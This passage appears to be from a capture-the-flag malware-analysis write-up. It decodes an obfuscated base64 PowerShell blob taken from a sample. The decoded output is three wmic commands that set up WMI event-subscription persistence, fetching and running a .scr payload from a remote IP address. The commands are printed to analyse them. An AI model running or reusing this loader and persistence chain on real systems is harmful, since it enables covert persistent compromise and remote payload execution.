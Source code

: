 `eval`

## 7. Which tool would have been used for creating the persistence mechanism?

On further inspection of the strings, we get another blob of powershell shenanigans.

![oh boy](https://media4.giphy.com/media/Ci0zsc4Fh5yQ2HdB1u/giphy.gif?cid=ecf05e47rep6by21luiqh0ssdectyg76ty2l3h1moaztuu1u&ep=v1_gifs_related&rid=giphy.gif&ct=g)

![image](https://user-images.githubusercontent.com/58165365/248574258-0460aa1b-b378-4115-a386-227e9bf3653e.png)

Normally, i would try execute this on my test Windows VM but i accidentally deleted it 😬. Not to worry, we can execute this on powershell in our Kali environment.

In the screenshot above, i have separated the commands in 3:

```powershell
─PS> $best64code = ("{5}{0}{2}{30}{12}{1}{14}{15}{6}{21}{31}{20}{10}{28}{7}{24}{11}{13}{22}{25}{17}{3}{19}{8}{4}{23}{26}{9}{16}{18}{27}{29}"-f 'mTuIX
Z0xWaGRnblZXRf9lI9','atdnCNoQDiI3Yz','IXZ0xWaGBSRUFURSNEIn5Wak5WaCJXZtV3cu92QvRlclRHbpZ0XfBCSUFEUgIibvlGdwlmcjNnY1NHX092byx','EIlNmbhR3culEdldmchRFIFJVRIdFIwAD','F','=IiIcp
Gb2dkYaN3VIJlIc1TZtFmTuIXZtV3cu92Q05WZ2VUZulGTk5WYt12bDJSPyVWb1NnbvNEIsIiIcN2ZJV1alFlZHVmIc1TZtF','h2YhNUZslmRlNWamZ2TcBjL2EDXlNWamZ2TcRnZvN3byNWaNxFbhN2bMxVY0FGRwBXQcVSRMl
kRPJFUSV0UVVCXzJXZzVFX6MkI9UGdhx','vJHXlNWamZ2TgQnZvN3byNWa','Zv1UZj5WY0NnbJ91Xg00TSZEIqACVDVET','dn5WYMl','Wb','LioGb2dkYaN3VIJlI9UWbh5EIFRVQFJ1QgIXZtV3cu92Q05WZ2','gMW','
VUZulGTk5WYt12bDBCSUFEUgIibvlGdwlmcjNnY1NHX092byxFXioTRDFEUTVUTB50','5iM4Qjc','lBXYwxGbhdHXl','nclVXUsIiM21WajxFdv9mci0TZjFGcTVWbh5EduVmdFBCLiM2ZJV1alFlZHV','UfJzMul2VnASQT
l','mI9UWbh5EIFRVQF','M5AiTJhEVJdFI05WZ2VkbvlGdhNWamlG','Rmbh1','GctVGVl5W','LgMWatdnCNoQDicSblR3c5N1XT9kZyVGUfFGdhREZlRHdh1','NlI9knclVXUgwiIMF1Vi0T','Nx1clxWaGBSbhJ3ZvJHU
cpzQi0Da0FGUlxmYhRXdjVGeFBC','mcvZkZyVG','ZnFW','J1QgIXZ0xWaGRnblZXRf9F','vNELiAyJyN2cuIDO0IXZwFGcsxWY39CN14CN4EjL3gTMuAjNv8iOwRHdodCIlhXZuQnbwJXZ39GUcZTMlNWamZ2TcR3b','IIR
VQQBiIu9Wa0BXayN2ciV3ccR3bvJHXcJiOFNUQQNVRNFkTvAyYp12d','FXioTRDFEUTVUTB50L','aM')

─PS> $base64 = $best64code.ToCharArray() ; [array]::Reverse($base64) ; -join $base64 2>&1> $null
─PS> $LoadCode = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("$base64"))
─PS> Write-Output $LoadCode
```

Locate powershell and execute the commands as shown below:

![image](https://user-images.githubusercontent.com/58165365/248574728-3541f892-723c-48a8-8fc4-85320fec3e5f.png)

![image](https://user-images.githubusercontent.com/58165365/248568747-4f7a365f-6cf7-44fd-840a-61dd2bf95499.png)

From the output, we now have readable commands that we will be breaking down in a few:


```powershell
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="eGfQekUIgc", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 9000 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"

wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="RHWsZbGvlj", ExecutablePath="C:\Program Files\Microsoft Office\root\Office16\Powerpnt.exe 'http://60.187.184.54/wallpaper482.scr' ",CommandLineTemplate="C:\Users\%USERPROFILE%\AppData\Local\Microsoft\Office\16.0\OfficeFileCache\wallpaper482.scr"

wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"eGfQekUIgc\"", Consumer="CommandLineEventConsumer.Name=\"RHWsZbGvlj\""
```
